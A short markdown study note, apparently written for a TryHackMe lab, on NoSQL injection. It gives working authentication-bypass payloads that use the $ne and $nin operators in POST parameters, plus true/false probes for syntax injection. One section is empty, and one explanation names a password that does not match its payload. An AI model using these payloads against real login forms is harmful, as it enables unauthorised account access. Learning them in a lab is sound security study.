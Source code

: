 # NoSql Injection Attacks

The root cause of an injection attack is that improper concatenation of untrusted user input into a command can allow an attacker to alter the command itself. With SQL injection, the most common approach is to inject a single or double quote, that terminates the current data concatenation and allows the attacker to modify the query. The same approach applies to NoSQL Injection. If untrusted user input is directly added to the query, we have the opportunity to modify the query itself. However, with NoSQL Injection, even if we can't escape the current query, we still have the opportunity to manipulate the query itself. Therefore, there are two main types of NoSQL Injection:

- Syntax Injection - This is similar to SQL injection, where we have the ability to break out of the query and inject our own payload. The key difference to SQL injection is the syntax used to perform the injection attack.
- Operator Injection—Even if we can't break out of the query, we could potentially inject a NoSQL query operator that manipulates the query's behaviour, allowing us to stage attacks such as authentication bypasses.

## Operator Injection Attack 1
Go to:
https://tryhackme.com/room/nosqlinjectiontutorial 
Task 4

Capture the POST request in BURP and change:  
`user=xxxx&pass=yyyy&remember=on`  

To:  
`user[$ne]=xxxx&pass[$ne]=yyyy&remember=on`  

The resulting filter would end up looking like this:  
`['username'=>['$ne'=>'xxxx'], 'password'=>['$ne'=>'yyyy']]`  

This would trick the database into returning any document where the username isn't equal to 'xxxx,' and the password isn't equal to 'yyyy'. 

## Operator Injection Attack 2
Go to:
https://tryhackme.com/room/nosqlinjectiontutorial 
Task 5

The `$nin` operator allows us to create a filter by specifying criteria where the desired documents have some field, not in a list of values:  

`user[$nin][]=admin&user[$nin][]=pedro&pass[$ne]=yyy&remember=on`  

This would translate to a filter that has the following structure:  

`['username'=>['$nin'=>['admin', 'pedro'] ], 'password'=>['$ne'=>'yyy']]`

Which tells the database to return any user for whom the username isn't admin, and the username isnt pedro, and the password isn't aweasdf. 
Notice that the `$nin` operator receives a list of values to ignore.

## Operator Injection Attack 3

## Syntax Injection 
Test for Syntax Injection by providing both a false and true condition and seeing if the output differs  

`admin' && 0 && 'x`

`admin' && 1 && 'x`

## Links 
### Mongdb query reference
https://www.mongodb.com/docs/manual/reference/operator/query/

